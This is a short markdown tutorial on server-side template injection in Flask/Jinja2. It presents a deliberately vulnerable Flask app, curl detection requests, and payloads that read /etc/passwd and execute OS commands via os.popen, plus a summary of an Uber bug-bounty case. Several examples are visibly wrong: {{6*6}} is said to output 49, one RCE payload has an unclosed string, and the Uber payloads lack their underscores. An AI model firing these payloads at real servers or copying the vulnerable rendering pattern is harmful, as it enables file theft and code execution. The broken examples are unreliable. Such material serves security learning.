

SSTI stands for server-side Template Injection, which is a vulnerability that can allow an attacker to inject malicious code into a web application's templates. this can occur when user input is not properly sanitized and is then used in the rendering of templates on the server-side
- Dynamic pages often using templates with user-provided values
- so user can inject arbitrary code in some case 
- the flow is something like Detection -> Template engine identification -> Exploitation

### Detection Payload




### Vulnerable Code Example

```python
from flask import Flask, request
from jinja2 import Environment

app = Flask(__name__)
Jinja2 = Environment()
@app.route("/home")

def home():
	name = request.values.get('name')
	output = Jinja2.from_string('hello ' + name + '!').render()
	return output

if __name__ == "__main__":
	app.run(host='0.0.0.0',port=8080)
```

```bash
pip install flask jinja2
py script.py
```

```bash
curl -g 'http://localhost/home?name=CNA' # hello CNA!
curl -g 'http://localhost/home?name={{6*6}}' # hello 49!
```
### Payload

> [!Example]
> Read File for Jinja2
> ```python
> {{''.__class__.__mro__[2].__subclasses__()[40]('/etc/passwd').read()}}
> ```
> ```python
> {{ get_flashed_messages.__globals__.__builtins__.open("/etc/passwd").read()}}
> ```
> RCE Jinja2
> ```python
> {{
> x.__init__.__builtins__.exec("from flask import current_app, after_this_request)
> @after_this_request
> def hook(*args,**kwargs):
> 	from flask import make_response
> 	r = make_response('PWN!')
> 	return z
> ")
> }}
> ```
> ```python
> {{
> self.__init__.__globals__.__builtins__.__import__('os').popen('id').read()
> }}
> ```

### Real World Example

an example of an SSTI vulnerability is the Uber HackerOne report in which an attacker was able to exploit a vulnerability in the flask Jinja2 template engine used by Uber's website to gain RCE on their serrvers. if user changes the profile, they will receive an email containing their name, Hunter put `{{ '7'*7}}` as his name and update his profile
he received an email containing 7777777 as his name then he continued exploiting the hole by following payloads
```python
{{[].class.base.subclasses()}}
{{''.class.mro()[1].subclasses()}}
{{c,c,c}}
```